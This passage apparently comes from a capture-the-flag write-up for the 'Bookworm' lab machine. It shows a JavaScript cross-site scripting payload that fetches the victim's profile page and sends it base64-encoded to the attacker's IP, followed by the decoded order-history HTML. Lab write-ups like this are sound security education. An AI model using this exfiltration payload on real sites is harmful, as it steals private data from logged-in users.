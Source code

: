 I took a break from this machine while waiting for it to be hosted on the SG VPN for stability (so that's why the IP addresses are different later). Afterwards, I edited the Javascript code a bit to wait for the page to load before sending me the contents:

```javascript
function stealpage(url) {
    var attacker = "http://10.10.14.13/?url=" + encodeURIComponent(url);
    fetch(url).then(async res => {
        fetch(attacker + "&data=" + btoa(await res.text()))
    });
}
stealpage("http://bookworm.htb/profile")
```

Afterwards, I would get a callback with a huge base64 encoded string at the back:

<figure><img src="../../.gitbook/assets/image (495) (2).png" alt=""><figcaption></figcaption></figure>

Here's the interseting part of the page decoded:

```markup
<hr>
<h3>Order History</h3>
<table class="table">
  <thead>
    <tr>
      <th scope="col">#</th>
      <th scope="col">Ordered At</th>
      <th scope="col">Total Price</th>
      <th scope="col"></th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <th scope="row">Order #16</th>
      <td>Wed Jan 18 2023 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£33</td>
      <td>
        <a href="/order/16">View Order</
      </td>
    </tr>
    <tr>
      <th scope="row">Order #17</th>
      <td>Sat Jan 21 2023 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£39</td>
      <td>
        <a href="/order/17">View Order</
      </td>
    </tr>
    <tr>
      <th scope="row">Order #18</th>
      <td>Fri Jan 27 2023 20:10:04 GMT+0000 (Coordinated Universal Time)</td>
      <td>£66</td>
      <td>
        <a href="/order/18">View Order</
      </td>
```
